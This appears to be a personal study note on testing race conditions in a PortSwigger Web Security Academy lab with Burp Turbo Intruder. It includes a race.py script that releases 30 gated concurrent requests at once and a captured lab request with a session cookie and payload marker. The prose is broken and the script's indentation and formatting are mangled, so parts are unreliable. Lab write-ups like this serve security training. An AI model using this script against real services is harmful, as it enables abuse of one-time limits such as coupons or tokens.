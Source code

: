 # Race Condition


### what is race condition?

a vulnerability that if you recognize a tips service process each times per mili-second per one tip then the entered tip was expired 

now what if we send request to intruder and use the tip for each time?

honestly the intruder is not much can do so we must install turbo intruder.

so after installing turbo intruder we need authorize request to turbo intruder to stating attack

![Untitled](Untitled.png)

1. select [race.py](http://race.py) to identifying payload way.
2. use **`%s` .**
3. so use `**%s**` to identify to burp turbo intruder, when you do this actually you are identifying to T intruder this is the prime request to attacking and pen-testing race condition.
4. use `**%s**` in request not the code → in user agent

also the race condition typical bug its beneath business logic

the [race.py](http://race.py) code:

```python
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
***concurrentConnections=30,
requestsPerConnection=20,***
pipeline=False
)
# the 'gate' argument blocks the final byte of each request until openGate is invoked
for i in range(30):
    engine.queue(target.req, target.baseInput, gate='race1')

# wait until every 'race1' tagged request is ready
# then send the final byte of each request
# (this method is non-blocking, just like queue)
engine.openGate('race1')

***engine.complete(timeout=60)***
def handleResponse(req, interesting):
table.add(req)
```

put `*%s*` in user-agent in request 

the request:

```jsx

/GET /academyLabHeader HTTP/1.1
Host: [0a62006d0305c03c8281e31600a800af.web-security-academy.net](http://0a62006d0305c03c8281e31600a800af.web-security-academy.net/)
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0*`%s`*
Accept: *
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Sec-WebSocket-Version: 13
Origin: [https://0a62006d0305c03c8281e31600a800af.web-security-academy.net](https://0a62006d0305c03c8281e31600a800af.web-security-academy.net/)
Sec-WebSocket-Key: svUA5KmP2SX9iJ8fmA13qQ==
Connection: keep-alive, Upgrade
Cookie: session=JY6P1p6JbbMbht1vIRwsbWbJcEIXNPwk
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: websocket
Sec-Fetch-Site: same-origin
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket
```

